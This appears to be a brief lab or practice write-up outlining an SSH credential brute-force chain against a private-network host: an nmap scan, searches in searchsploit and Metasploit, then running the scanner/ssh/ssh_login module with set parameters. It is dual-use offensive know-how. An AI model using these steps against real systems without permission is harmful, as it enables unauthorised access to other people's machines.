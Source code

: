 
## Aim
	trying to login with ssh credential

## Exploit Chain

		1. scan in nmap with -sC and -sV flag
		2. search in searchsploit
		3. search in metasploit(msfconsole)
		4. use the exploit "scanner/ssh/ssh_login"
		5. set parameter or bruteforce for password


## Commands

		1.nmap -sC 192.168.24.129 -p 22
		2. searchsploit ssh linux
		3. msfconsole
		4. search ssh linux
		5. use scanner/ssh/ssh_login
		6. set parameter
		7. run
		

